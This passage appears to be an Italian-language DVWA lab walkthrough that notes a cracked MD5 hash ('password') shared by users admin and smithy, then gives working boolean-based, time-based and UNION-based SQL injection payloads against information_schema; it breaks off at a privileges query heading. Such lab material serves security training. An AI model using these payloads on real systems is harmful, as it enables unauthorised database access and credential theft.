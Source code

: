 ### Analisi Hash Password

#### Caratteristiche Hash

- **Lunghezza**: 32 caratteri
- **Formato**: Esadecimale
- **Algoritmo**: MD5 (molto probabile)

#### Hash Comuni Identificati

```
5f4dcc3b5aa765d61d8327deb882cf99 → "password"
```

**Utenti con stessa password**: `admin` e `smithy`

> 📝 **Nota Sicurezza**: Gli hash MD5 sono facilmente crackabili con dizionari/rainbow tables.

## Tecniche Avanzate SQL Injection

### Blind SQL Injection

#### Boolean-Based

```sql
1' AND 1=1 --       # Vero → Risposta normale  
1' AND 1=2 --       # Falso → Nessun risultato
```

#### Time-Based

```sql
1' AND SLEEP(5) -- -
```

**Test**: Se la risposta ritarda 5 secondi, la query viene eseguita.

> ⚠️ **Nota**: DVWA usa MariaDB/MySQL, quindi utilizza `SLEEP()` (non `pg_sleep` di PostgreSQL).

### Information Schema Exploitation

#### Struttura Information Schema

**Tabelle chiave**:
- `information_schema.tables`: Metadati tabelle
- `information_schema.columns`: Metadati colonne
- `information_schema.schemata`: Elenco database

#### Query Template Database

```sql
-1' UNION SELECT 1, schema_name FROM information_schema.schemata -- -
```

#### Query Template Privilegi
